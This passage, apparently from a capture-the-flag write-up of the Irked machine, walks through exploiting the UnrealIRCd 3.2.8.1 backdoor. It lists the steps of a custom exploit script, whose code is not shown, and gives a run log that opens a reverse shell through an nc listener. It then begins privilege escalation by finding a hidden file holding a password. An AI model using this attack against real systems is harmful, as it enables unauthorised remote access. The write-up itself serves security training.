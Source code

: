 

Here's what it does:

-   Checks for right number of args and set variables, or prints usage.
    \[Lines 7-11\]
-   Connects to the host, gets first message from host. \[13-20\]
-   Sends payload and closes socket. \[22-25\]
-   Uses `subprocess` to run a `nc` listener, waits for callback, and
    then lets me interact with it until ctrl-c to exit. \[27-33\]

Here's how it runs:



    root@kali# ./unreal_3.2.8.1_exploit.py 10.10.10.117 6697 10.10.14.14 443
    [*] Connecting to 10.10.10.117:6697
    [*] Sending payload
    [+] Payload sent. Closing socket.
    [*] Opening listener. Callback should come within a minute
    bash: cannot set terminal process group (634): Inappropriate ioctl for device
    bash: no job control in this shell
    ircd@irked:~/Unreal3.2$ id
    id
    uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)



## Privesc: ircd --\> djmardov

### Enumeration

I can find `user.txt`, but I can't read it:



    ircd@irked:/home/djmardov/Documents$ cat user.txt 
    cat: user.txt: Permission denied



In that same directory, there's a hidden `.backup` file:



    ircd@irked:/home/djmardov/Documents$ ls -la
    total 16
    drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
    drwxr-xr-x 18 djmardov djmardov 4096 Nov  3 04:40 ..
    -rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
    -rw-------  1 djmardov djmardov   33 May 15  2018 user.txt

    ircd@irked:/home/djmardov/Documents$ cat .backup
    Super elite steg backup pw
    UPupDOWNdownLRlrBAbaSSss



### Steg
